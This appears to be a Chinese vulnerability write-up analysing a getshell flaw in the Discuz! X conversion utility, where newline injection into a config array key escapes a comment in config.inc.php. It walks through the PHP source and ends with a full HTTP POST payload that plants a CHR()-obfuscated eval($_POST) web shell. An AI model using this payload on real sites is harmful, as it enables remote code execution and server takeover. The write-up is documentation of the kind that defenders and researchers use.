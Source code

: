 ```yaml
---
title: "Discuz 系列全版本 版本转换功能导致Getshell"
id: zhfly2881
---
```


# Discuz! X 系列全版本，版本转换功能导致Getshell

## 一、漏洞简介

存在问题的代码在`/utility/convert/`目录下，这部分的功能主要是用于Dz系列产品升级/转换。

## 二、漏洞影响

Discuz! X 全版本

## 三、复现过程

### 漏洞分析

入口`utility/convert/index.php`

```
require './include/common.inc.php'; `$action = getgpc(‘a’);

$action = empty($action) ? getgpc(‘action’) : $action;

$source = getgpc(‘source’) ? getgpc(‘source’) : getgpc(‘s’);` 
```

取`$_POST['a']`,直接赋值给`$action`，此时`$action = config`;

```
} elseif($action == 'config' || CONFIG_EMPTY) {      
    require DISCUZ_ROOT.'./include/do_config.inc.php';  
} elseif($action == 'setting') { 
```

满足条件，引入`./include/do_config.inc.php`

```
@touch($configfile);
 ......
if(submitcheck()) {
    $newconfig = getgpc('newconfig');
    if(is_array($newconfig)) {
        $checkarray = $setting['config']['ucenter'] ? array('source', 'target', 'ucenter') : array('source', 'target');
        foreach ($checkarray as $key) {
      ......
    }
    save_config_file($configfile, $newconfig, $config_default); 
```

`$newconfig`从`$_POST[newconfig]`获取数据，`save_config_file`函数保将`$newconfig`保存到`$configfile`文件中，即`config.inc.php`文件。跟进该函数。

```
function save_config_file($filename, $config, $default) {
    $config = setdefault($config, $default);// 将$config中的空白项用 $default 中对应项的值填充
    $date = gmdate("Y-m-d H:i:s", time() + 3600 * 8);
    $year = date('Y');
    $content = <<<EOT
<?php

$_config = array(); `EOT;

$content .= getvars(array(’_config’ => $config));

$content .= “\r\n// “.str_pad(’  THE END  ', 50, ‘-’, STR_PAD_BOTH).” //\r\n\r\n?>”;

file_put_contents($filename, $content);

}` 
```

getvars函数处理，此时的`$config` = `$newconfig+config.default.php对应项的补充`。看一下getvars函数：

```
function getvars($data, $type = 'VAR') {
    $evaluate = '';
    foreach($data as $key => $val) {
        if(!preg_match("/^[a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*$/", $key)) {
            continue;
        }
        if(is_array($val)) {
            $evaluate .= buildarray($val, 0, "\${$key}")."\r\n";
        } else {
            $val = addcslashes($val, '\'\\');
            $evaluate .= $type == 'VAR' ? "\$$key = '$val';\n" : "define('".strtoupper($key)."', '$val');\n";
        }
    }
    return $evaluate;
} 
```

满足if条件会执行`buildarray`函数，此时`$key=_config`，`$val`=上面的`$config`。最终造成写入的在该函数中（update.php 2206行）：

```
foreach ($array as $key => $val) {
        if($level == 0) {
            //str_pad — 使用另一个字符串填充字符串为指定长度
            // 第一个参数是要输出的字符串，指定长度为50，用'-'填充，居中
            $newline = str_pad('  CONFIG '.strtoupper($key).'  ', 50, '-', STR_PAD_BOTH);
            $return .= "\r\n// $newline //\r\n";
        } 
```

本意是使用`$config`数组的key作为每一块配置区域的"注释标题"，写入配置文件的$newline依赖于$key，而$key是攻击者可控的。

未对输入数据进行正确的边界处理，导致可以插入换行符，逃离注释的作用范围，从而使输入数据转化为可执行代码。

### 漏洞复现

在产品升级/转换->选择产品转换程序 ->设置服务器信息 这里抓包，

payload：

```
POST /dz/utility/convert/index.php HTTP/1.1
Host: www.0-sec.org:8001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 278
Origin: http://127.0.0.1:8001
Connection: close
Referer: http://127.0.0.1:8001/dz/utility/convert/index.php
Upgrade-Insecure-Requests: 1 `a=config&source=d7.2_x1.5&submit=yes&newconfig[aaa%0a%0deval(CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(34).CHR(36).CHR(95).CHR(80).CHR(79).CHR(83).CHR(84).CHR(91).CHR(108).CHR(97).CHR(110).CHR(118).CHR(110).CHR(97).CHR(108).CHR(93).CHR(59).CHR(34).CHR(41).CHR(59));//]=aaaa` 
```

![image](../img/695ada7a7dad1f24740b144ec76d5c60.png)

## 参考链接

> https://xz.aliyun.com/t/7492#toc-18